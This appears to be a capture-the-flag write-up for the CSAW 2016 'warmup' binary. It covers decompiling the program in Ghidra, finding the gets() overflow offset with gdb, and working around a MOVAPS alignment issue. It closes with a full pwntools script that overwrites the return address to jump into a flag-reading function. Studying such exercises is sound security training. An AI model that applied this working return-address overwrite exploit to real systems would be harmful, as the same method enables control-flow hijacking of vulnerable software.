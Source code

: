 ![alt text](images/csaw16quals-warmup/image.png)

Decompiling with Ghidra:

![alt text](images/csaw16quals-warmup/image1.png)

main function prints the address of `easy` function and then takes input in `local_48`.

![alt text](images/csaw16quals-warmup/image2.png)

`easy` function will give us contents of the file `flag.txt`.

Although, `easy` function hasn't been called in function i.e. `0x40060d`, we can exploit gets function by overwriting return address to that of `easy` function.

To find the offset, we will use `gdb`.

![alt text](images/csaw16quals-warmup/image-4.png)

We set a breakpoint just before the `return` call and run the program.

![alt text](images/csaw16quals-warmup/image-5.png)

![alt text](images/csaw16quals-warmup/image-6.png)

So, offset = `hex( 0x7fffffffded8-0x7fffffffde90) = 0x48` .

![alt text](images/csaw16quals-warmup/image-7.png)

Caution: MOVAPS Issue !!!
To account for MOVAPS issue, we return the function first and then call it.

Exploit:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template warmup
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'warmup')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

#shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
payload = b'0'*0x48 + p64(0x40061c) +  p64(0x40060d)

io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.interactive()

```

We get the flag:

![alt text](images/csaw16quals-warmup/image-3.png)
